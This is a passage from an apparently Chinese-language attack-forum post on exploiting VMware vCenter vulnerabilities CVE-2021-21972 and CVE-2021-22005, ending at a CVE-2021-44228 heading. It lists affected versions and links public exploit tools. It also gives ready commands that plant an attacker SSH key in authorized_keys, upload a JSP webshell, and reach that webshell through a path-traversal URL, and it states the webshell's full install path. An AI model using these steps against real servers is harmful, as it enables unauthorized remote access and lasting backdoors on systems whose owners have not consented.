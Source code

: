 ![image-20220813172742556.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-32ae6de3c25ebd05e88d0782435b9f27060d8372.png)  
Linux机器：

1、写公私钥（需要22端口开放）

```php
python3 CVE-2021-21972.py -t x.x.x.x -p /home/vsphere-ui/.ssh/authorized_keys -o unix -f id_rsa_2048.pub
```

2、遍历写shell（时间较久）

<https://github.com/NS-Sp4ce/CVE-2021-21972>

![image-20220829190235482.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-05a913d41bb24b91bcf29d675c43a0216dbb7588.png)

0x04 CVE-2021-22005
===================

影响范围

- vCenter Server 7.0 &lt; 7.0 U2c build-18356314
- vCenter Server 6.7 &lt; 6.7 U3o build-18485166
- Cloud Foundation (vCenter Server) 4.x &lt; KB85718 (4.3)
- Cloud Foundation (vCenter Server) 3.x &lt; KB85719 (3.10.2.2)
- 6.7 vCenters Windows版本不受影响

漏洞利用

<https://github.com/r0ckysec/CVE-2021-22005>

```php
cve-2021-22005_exp_win.exe -u https://x.x.x.x --shell
```

![image-20220813184455354.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-0bef920cb8b4a431b619df713889aadb8e98bc21.png)

<https://github.com/rwincey/CVE-2021-22005/blob/main/CVE-2021-22005.py>

```php
python cve-2021-22005.py -t https://x.x.x.x
```

![image-20220813190026044.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-82ad078909b942162f90c1ebaeaa801e4a739eeb.png)

连接webshell

```php
https://x.x.x.x/idm/..;/test.jsp
```

![image-20220813185938630.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-2a58627c60e7afc64a7ff5852c35add37a5a30cb.png)

上传后的webshell完整路径为

```php
/usr/lib/vmware-sso/vmware-sts/webapps/ROOT/xx.jsp
```

0x05 CVE-2021-44228
===================
